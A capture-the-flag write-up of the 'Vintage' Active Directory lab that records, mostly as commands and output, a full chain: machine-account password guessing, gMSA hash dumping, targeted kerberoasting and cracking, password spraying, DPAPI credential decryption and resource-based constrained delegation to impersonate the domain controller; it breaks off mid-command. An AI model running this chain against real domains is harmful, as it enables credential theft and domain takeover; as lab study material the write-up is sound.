




# Vintage
## Initial credentials
```python
P.Rosa:Rosaisbest123
```

## Host file setup
```python
sudo nxc smb 10.129.231.205 --generate-hosts-file /etc/hosts        
[sudo] password for kali: 
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
```
So some things to note:
- NTLM auth disabled
- SMB signing is enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc01.vintage.htb      
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 16:28 +0100
Nmap scan report for dc01.vintage.htb (10.129.231.205)
Host is up (0.014s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49676/tcp open  unknown
49687/tcp open  unknown
52792/tcp open  unknown
62928/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 65.80 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT dc01.vintage.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-02 16:30 +0100
Nmap scan report for dc01.vintage.htb (10.129.231.205)
Host is up (0.017s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-02 15:30:36Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
DC is running at -1h

## SMB (445)
Since NTLM is disabled i basically need to get a tgt

```python
nxc smb dc01.vintage.htb -u 'p.rosa' -p 'Rosaisbest123' -k            
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\p.rosa:Rosaisbest123
```
The creds work to make this simple though ill just generate a tgt for this save entering credentials

```python
nxc smb dc01.vintage.htb -u 'p.rosa' -p 'Rosaisbest123' -k --generate-tgt p_rosa.tgt
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\p.rosa:Rosaisbest123 
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: p_rosa.tgt.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=p_rosa.tgt.ccache
```
Now i can export it!

```python
export KRB5CCNAME=p_rosa.tgt.ccache
```
### Shares
```python
nxc smb dc01.vintage.htb --use-kcache --shares                                      
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] VINTAGE.HTB\p.rosa from ccache 
SMB         dc01.vintage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.vintage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.vintage.htb 445    dc01             -----           -----------     ------
SMB         dc01.vintage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.vintage.htb 445    dc01             C$                              Default share
SMB         dc01.vintage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.vintage.htb 445    dc01             NETLOGON        READ            Logon server share 
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```
Read access on default shares
### Users
```python
nxc smb dc01.vintage.htb --use-kcache --users-export users.txt
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] VINTAGE.HTB\p.rosa from ccache 
SMB         dc01.vintage.htb 445    dc01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         dc01.vintage.htb 445    dc01             Administrator                 2024-06-08 11:34:54 0       Built-in account for administering the computer/domain
SMB         dc01.vintage.htb 445    dc01             Guest                         2024-11-13 14:16:53 0       Built-in account for guest access to the computer/domain
SMB         dc01.vintage.htb 445    dc01             krbtgt                        2024-06-05 10:27:35 0       Key Distribution Center Service Account
SMB         dc01.vintage.htb 445    dc01             M.Rossi                       2024-06-05 13:31:08 0        
SMB         dc01.vintage.htb 445    dc01             R.Verdi                       2024-06-05 13:31:08 0        
SMB         dc01.vintage.htb 445    dc01             L.Bianchi                     2024-06-05 13:31:08 0        
SMB         dc01.vintage.htb 445    dc01             G.Viola                       2024-06-05 13:31:08 0        
SMB         dc01.vintage.htb 445    dc01             C.Neri                        2024-06-05 21:08:13 0        
SMB         dc01.vintage.htb 445    dc01             P.Rosa                        2024-11-06 12:27:16 0        
SMB         dc01.vintage.htb 445    dc01             svc_sql                       2026-04-02 15:32:15 0        
SMB         dc01.vintage.htb 445    dc01             svc_ldap                      2024-06-06 13:45:27 0        
SMB         dc01.vintage.htb 445    dc01             svc_ark                       2024-06-06 13:45:27 0        
SMB         dc01.vintage.htb 445    dc01             C.Neri_adm                    2024-06-07 10:54:14 0        
SMB         dc01.vintage.htb 445    dc01             L.Bianchi_adm                 2024-11-26 11:40:30 0        
SMB         dc01.vintage.htb 445    dc01             [*] Enumerated 14 local users: VINTAGE
SMB         dc01.vintage.htb 445    dc01             [*] Writing 14 local users to users.txt
```
Dumped all the users to a text file

AS-REP roasting and kerberoasting both failed

No usernames as passwords and no password reuse

Not a lot else i can do with SMB

## Pre-created computer account
```python
nxc smb dc01.vintage.htb -u 'fs01$' -p 'fs01' -k  
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\fs01$:fs01
```
I ran nxc again with `--rid-brute` and found some machine accounts and ive attempted the user as password here and authenticated

## Bloodhound

Found outbound object control on this machine account

## Dumping gMSA password of `GMSA01$`
```python
nxc ldap dc01.vintage.htb -u 'fs01$' -p 'fs01' --gmsa -k
LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        dc01.vintage.htb 389    DC01             [+] vintage.htb\fs01$:fs01 
LDAP        dc01.vintage.htb 389    DC01             [*] Getting GMSA Passwords
LDAP        dc01.vintage.htb 389    DC01             Account: gMSA01$              NTLM: 0851299c01b944d01099fc977eaa6c67     PrincipalsAllowedToReadPassword: Domain Computers
```
Found the NTLM hash of this computer account

## Bloodhound on `GMSA01$`

Ive got GenericWrite and AddSelf on the service managers group

## Adding member to `servicemanagers` group
```python
nxc smb dc01.vintage.htb -u 'GMSA01$' -H '0851299c01b944d01099fc977eaa6c67' --generate-tgt gmsa01 -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\GMSA01$:0851299c01b944d01099fc977eaa6c67 
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: gmsa01.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=gmsa01.ccache
```
This generated a TGT for the GMSA01$ machine account

```python
export KRB5CCNAME=gmsa01.ccache
```

```python
bloodyAD -k --host dc01.vintage.htb -d vintage.htb add groupMember servicemanagers 'GMSA01$' 
[+] GMSA01$ added to servicemanagers
```
I generated a TGT for the `GMSA01$` machine account and then added the user to the group

## Bloodhound on `servicemanagers` group

GenericAll over three service accounts

The `svc_sql` account is disabled

### Re-enabling `svc_sql`
```python
nxc smb dc01.vintage.htb -u 'GMSA01$' -H '0851299c01b944d01099fc977eaa6c67' --generate-tgt gmsa01 -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\GMSA01$:0851299c01b944d01099fc977eaa6c67 
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: gmsa01.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=gmsa01.ccache
```
Im having to regenerate the TGT since i am now in a new group

```python
bloodyAD -k --host dc01.vintage.htb -d vintage.htb remove uac 'svc_sql' -f ACCOUNTDISABLE           

[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```
To do this i had to re-generate a TGT using nxc since the last one i generated does not contain the new group info 

## Abusing GenericAll on three service accounts
Now im in the group and have a valid TGT and `svc_sql` is enabled i can abuse this

So after trying to abuse ForceChangePassword on the three accounts and failing ill try a targeted kerberoast

```python
bloodyAD -k --host dc01.vintage.htb -d vintage.htb set object 'svc_sql' servicePrincipalName -v 'service/hacked'

[+] svc_sql's servicePrincipalName has been updated
```
So for some reason when trying this on the the other two service accounts it failed and doesnt let me update the SPN

```python
nxc ldap dc01.vintage.htb --use-kcache --kerberoasting kerb.hashes
LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:VINTAGE.HTB) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        dc01.vintage.htb 389    DC01             [+] VINTAGE.HTB\p.rosa from ccache 
LDAP        dc01.vintage.htb 389    DC01             [*] Skipping disabled account: krbtgt
LDAP        dc01.vintage.htb 389    DC01             [*] Total of records returned 1
LDAP        dc01.vintage.htb 389    DC01             [*] sAMAccountName: svc_sql, memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb, pwdLastSet: 2026-04-02 17:32:06.597110, lastLogon: <never>
LDAP        dc01.vintage.htb 389    DC01             $krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$4d92468f4c7f369421448e16aa359808$2c7dfcda6f490ea1df70f69d453ca0ce321a160c4c5b2dce96b65036df0a98a9c7164d645d660d4d37d4350feac75f4c4ba309ed3d59298b08a7426f73dd13ddfde1e6117285099ee376c654e58d3ff3f75cc2590f3f89f54446eeddb7ca2f0276417150f6aa99dc052a9594e72d0da890eeb2aa548bdb8a8914e9c84d93bfe36fa0674d74e9b952623df4abcce82227cad06f4dfddabf34cfce4e21eb0225aa5715ed23ab50e28af75615440012cf7358b973c246489673ac166a50d3bbf826bcf498f446476e39ee314980b7d53ac18900536d67c9245549174b621c76cf617a4255c6c43ff901c4b18b79b94e7764e3bd2f0fe133d049147b5b36a3e6bcaa5da45a81c5a53171bba98e100f19376f229b1033ac946c29f3feaff7c7f83c69aefe9c323345a97050bccd441dcee2d72fdaf8d4e91f730bfc1eafa35462a322f6affb44982a828c3cf69eb150359dd8ded0bd27a468e90914aeae6fa37a3ca1353c4e7f47ab88db9268d2bb3da39bbd2fbd0fb5202187da503a0ed10a928fbb18c4cac0e89e486ef877f5c6ae53266d945bfe16b588bc521696e57bbd1d98241ea32517584adf68222694e2a6e0d44e749db873359bb7e23e91f295cf1e33d27cb5e5af7292bdaa64fda48ff1dd07bdab2a88b2646fb10549476b6c2158d8843cf8a929b72f63c0c6d9d07adf0bac74e0bddf544d7824b4cd82902ab9748e8c7fd8640bff5a8a3fca5fa7099324523afec5ce49c0c06acd0ddf78905858bad8588930c9d5c20e031707cf685148f380d5b02b35173e48a1e033aed299eac12bd6eed3a68082579384e0164ad3620f09f286fe225aa2a2a8fe6afbbef3437f8151fadefdc231d4b00243e805045b9df532236617ae118dbc1cf21612b0a0a76979f5ed5cbcd78c1eb45983904704e8cb5dd7aecb7891345726aebe1cf5ec8fa7e3fb8b42063df2ff3f14d092f60cec4bc24fcf323b9ce6f30e3f6451530477a9faabed1a00df6f969aeca1e96e01a2715b91d6b0661bdfe37d5191049fc3e99db8d99ae249350adf6fd2188b69feb15591071caddc45438b901a0fabe2a47dfe3836db0e643245be93f79eee068d7f18ddf1f271ab468f360a6749136c8c9c665c3e14f8f240b89f77504d5702f2a26c6ca5ac6c34e29778a6a13058753fc4a608958a8a89d3e6fe70c8f89b1fcd0fe891a3d9b1d7336ed1e1ba78e0eaa5544c8ecad11c3151a94efa621ced40467de08fa167d5eecb8cab97dbe61f2bfb074828b33ed63211629df7687ac6245f1e4e7d7f39a7e1935d1a6393e4f1076c6b30d1bd7ad5c83116775aad736e4a00bf1b93dcfa9cdb1469a08823640e07e9317b3dfe8377d9f9785889067bf7fdf01b6d2bc54dc863d1b032b25b1c02db2f01d1400957628e6c68669752415bd50f95a37defffe5cc5da79eb34a
```
Ive got a hash!
### Cracking the hash
```python
hashcat kerb.hashes /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb\svc_sql*$4d92468f4c7f369421448e16aa359808$2c7dfcda6f490ea1df70f69d453ca0ce321a160c4c5b2dce96b65036df0a98a9c7164d645d660d4d37d4350feac75f4c4ba309ed3d59298b08a7426f73dd13ddfde1e6117285099ee376c654e58d3ff3f75cc2590f3f89f54446eeddb7ca2f0276417150f6aa99dc052a9594e72d0da890eeb2aa548bdb8a8914e9c84d93bfe36fa0674d74e9b952623df4abcce82227cad06f4dfddabf34cfce4e21eb0225aa5715ed23ab50e28af75615440012cf7358b973c246489673ac166a50d3bbf826bcf498f446476e39ee314980b7d53ac18900536d67c9245549174b621c76cf617a4255c6c43ff901c4b18b79b94e7764e3bd2f0fe133d049147b5b36a3e6bcaa5da45a81c5a53171bba98e100f19376f229b1033ac946c29f3feaff7c7f83c69aefe9c323345a97050bccd441dcee2d72fdaf8d4e91f730bfc1eafa35462a322f6affb44982a828c3cf69eb150359dd8ded0bd27a468e90914aeae6fa37a3ca1353c4e7f47ab88db9268d2bb3da39bbd2fbd0fb5202187da503a0ed10a928fbb18c4cac0e89e486ef877f5c6ae53266d945bfe16b588bc521696e57bbd1d98241ea32517584adf68222694e2a6e0d44e749db873359bb7e23e91f295cf1e33d27cb5e5af7292bdaa64fda48ff1dd07bdab2a88b2646fb10549476b6c2158d8843cf8a929b72f63c0c6d9d07adf0bac74e0bddf544d7824b4cd82902ab9748e8c7fd8640bff5a8a3fca5fa7099324523afec5ce49c0c06acd0ddf78905858bad8588930c9d5c20e031707cf685148f380d5b02b35173e48a1e033aed299eac12bd6eed3a68082579384e0164ad3620f09f286fe225aa2a2a8fe6afbbef3437f8151fadefdc231d4b00243e805045b9df532236617ae118dbc1cf21612b0a0a76979f5ed5cbcd78c1eb45983904704e8cb5dd7aecb7891345726aebe1cf5ec8fa7e3fb8b42063df2ff3f14d092f60cec4bc24fcf323b9ce6f30e3f6451530477a9faabed1a00df6f969aeca1e96e01a2715b91d6b0661bdfe37d5191049fc3e99db8d99ae249350adf6fd2188b69feb15591071caddc45438b901a0fabe2a47dfe3836db0e643245be93f79eee068d7f18ddf1f271ab468f360a6749136c8c9c665c3e14f8f240b89f77504d5702f2a26c6ca5ac6c34e29778a6a13058753fc4a608958a8a89d3e6fe70c8f89b1fcd0fe891a3d9b1d7336ed1e1ba78e0eaa5544c8ecad11c3151a94efa621ced40467de08fa167d5eecb8cab97dbe61f2bfb074828b33ed63211629df7687ac6245f1e4e7d7f39a7e1935d1a6393e4f1076c6b30d1bd7ad5c83116775aad736e4a00bf1b93dcfa9cdb1469a08823640e07e9317b3dfe8377d9f9785889067bf7fdf01b6d2bc54dc863d1b032b25b1c02db2f01d1400957628e6c68669752415bd50f95a37defffe5cc5da79eb34a:Zer0the0ne
```
Cracked the hash!

```python
svc_sql:Zer0the0ne
```
Ill validate these credentials

```python
nxc smb dc01.vintage.htb -u 'svc_sql' -p 'Zer0the0ne' -k                            
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne
```
This user is now compromised

## Password spray on user accounts with new password
After getting a new password for a service account its always a good idea to spray this against other users in case of password reuse. One of the users on the domain will have setup the service account so whoever did is likely to have reused the password. If that concept holds up in a CTF i will find out.....

```python
nxc smb dc01.vintage.htb -u users.txt -p 'Zer0the0ne' --continue-on-success -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\svc_sql:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\svc_ldap:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\svc_ark:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
```
I have indeed compromised a user using a password spray

```python
C.Neri:Zer0the0ne
```
This user is compromised

The user `c.neri` is part of the remote management users group

## Evil-winrm as `c.neri`
Ill start by getting a TGT for the user `c.neri`

```python
sudo nxc smb dc01.vintage.htb -u 'c.neri' -p 'Zer0the0ne' --generate-krb5-file /etc/krb5.conf -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] krb5 conf saved to: /etc/krb5.conf
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the conf file: export KRB5_CONFIG=/etc/krb5.conf
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri:Zer0the0ne
```
I first have to make sure the krb5 file is set in `/etc`

```python
nxc smb dc01.vintage.htb -u 'c.neri' -p 'Zer0the0ne' --generate-krb5-file vintage.krb5 -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] krb5 conf saved to: vintage.krb5
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the conf file: export KRB5_CONFIG=vintage.krb5
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri:Zer0the0ne
```
Ill then generate another one in my current directory

```python
KRB5CCNAME=c.neri.ccache evil-winrm -i dc01.vintage.htb -r vintage.htb 
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> 
```
After some quick enumeration of the file system i found some dpapi credentials

### Credential extraction
First ill download the credential to my machine as well as the master key stored in `C:\Users\c.neri\AppData\Roaming\Microsoft\Protect`

#### Key decryption
```python
dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password 'Zer0the0ne' 
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
#### Accessing password
```python
dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```
After trying the first key and failing the second one succeeds

Ill validate these credentials

```python
nxc smb dc01.vintage.htb -u 'c.neri_adm' -p 'Uncr4ck4bl3P4ssW0rd0312' -k                            
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri_adm:Uncr4ck4bl3P4ssW0rd0312
```
This user is now compromised

## Domain admin

Looks like this is setting up for some form of delegation attack

	This was discovered from the "Shortest paths from Owned objects to Tier Zero" query and for future reference be sure to uncomment the query

```python
findDelegation.py -k vintage.htb/ -dc-host dc01.vintage.htb
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

AccountName      AccountType  DelegationType              DelegationRightsTo  SPN Exists 
---------------  -----------  --------------------------  ------------------  ----------
DelegatedAdmins  Group        Resource-Based Constrained  DC01$               No         
DC01$            Computer     Unconstrained               N/A                 Yes    
```

For this attack path to work ill need an account with an SPN set, if i recall `FS01$` had one set so i can use that

Ill also need a TGT for the user `c.neri_adm`:
```python
nxc smb dc01.vintage.htb -u 'c.neri_adm' -p 'Uncr4ck4bl3P4ssW0rd0312' -k --generate-tgt c.neri_adm
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri_adm:Uncr4ck4bl3P4ssW0rd0312 
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: c.neri_adm.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=c.neri_adm.ccache


export KRB5CCNAME=c.neri_adm.ccache
```


```python
bloodyAD -k --host dc01.vintage.htb -d vintage.htb add groupMember 'DelegatedAdmins' 'FS01$'

[+] FS01$ added to DelegatedAdmins
```
This added the user to the group

Also ill make a new ticket as `FS01$`:
```python
nxc smb dc01.vintage.htb -u 'fs01$' -p 'fs01' --generate-tgt fs01 -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\fs01$:fs01 
SMB         dc01.vintage.htb 445    dc01             [+] TGT saved to: fs01.ccache
SMB         dc01.vintage.htb 445    dc01             [+] Run the following command to use the TGT: export KRB5CCNAME=fs01.ccache
```
Now i have all the TGTs i can add `FS01$` to the `DelegatedAdmins` group

```python
KRB5CCNAME=fs01.ccache getST.py -spn 'cifs/dc01.vintage.htb' -impersonate 'dc01$' 'vintage.htb/fs01$:fs01' -dc-ip dc01.vintage.htb
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating dc01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```
I can now use this TGT to authenticate as `DC01$`

```python
export KRB5CCNAME=dc01\$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```
Now i can authenticate as `DC01$`

```python
nxc smb dc01.vintage.htb --use-kcache                               
